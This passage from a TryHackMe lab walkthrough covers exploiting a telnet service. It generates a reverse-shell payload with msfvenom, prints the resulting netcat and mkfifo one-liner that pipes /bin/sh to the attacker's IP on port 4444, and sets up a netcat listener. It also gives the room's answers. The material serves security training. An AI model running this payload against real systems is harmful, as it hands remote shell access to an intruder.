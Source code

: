 **What word does the generated payload start with?**

The payload will set up a reverse shell. In a reverse shell, the target machine initiates the network connection with the attacking machine. Since the shell has to connect with our machine we need the IP address of our machine on the TryHackMe network. If you have used OpenVPN to connect to TryHackMe you need to look under the `tun0` interface.

```bash
ip a l tun0
```

The value under `inet` is the IP address we required.

![[ns-telnet-6.png|600]]

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.6.67.160 lport=4444 R
```

![[ns-telnet-7.png|600]]

The last line of the output is the generated payload.

```bash
mkfifo /tmp/gewdh; nc 10.6.67.160 4444 0</tmp/gewdh | /bin/sh >/tmp/gewdh 2>&1; rm /tmp/gewdh
```

> mkfifo

**9. Perfect. We're nearly there. Now all we need to do is start a Netcat listener on our local machine. We do this using: "nc -lvp \[listening port\]"  
What would the command look like for the listening port we selected in our payload?**

In a new terminal run the below command. The terminal that has `tcpdump` running can be closed.

```bash
netcat -nvlp 4444
```

`-n`: No DNS Resolution  
`-v`: Verbose Output  
`-l`: Listen Mode  
`-p`: Listener Port

![[ns-telnet-8.png|400]]

> nc -lvp 4444

**10. Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!**

Run the payload generated by `msfvenom` on the terminal which is connected to telnet. Remember to prefix the command with `.RUN`. If the command is executed correctly you will receive a connection on the Netcat listener.

![[ns-telnet-9.png|400]]

> No answer required
